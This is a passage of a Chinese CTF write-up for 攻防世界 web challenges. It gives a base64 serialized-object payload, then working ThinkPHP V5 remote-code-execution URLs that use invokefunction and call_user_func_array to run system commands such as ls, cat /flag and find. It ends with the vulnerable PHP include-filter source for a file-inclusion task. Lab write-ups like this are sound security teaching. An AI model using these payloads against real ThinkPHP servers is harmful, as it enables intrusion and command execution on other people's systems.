 > TzorNDoiRGVtbyI6Mzp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

传参给var即可得到flag



### php_rce

#### 考点：代码执行

这道题，考察的是thinkphp V5的漏洞，[攻防世界 thinkPHP V5漏洞详解](https://blog.csdn.net/qq_45676913/article/details/105467321)

简单来说就是，攻击者可以用 \（斜杠）调用任意类方法，在后面接linux命令查找就好了

```
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=
```



先找根目录，

```
s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /
```

看到了flag，直接cat就好了

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20 /flag
```



其实也可以直接查询，也可以很快找到在根目录下

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "flag"
```



### Web_php_include

#### 考点：PHP伪协议

打开页面是这样一段代码从代码中得知**page中带有php://的都会被替换成空**

**str_replace()**以其他字符替换字符串中的一些字符(区分大小写)

**strstr()** 查找字符串首次出现的位置。返回字符串剩余部分

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
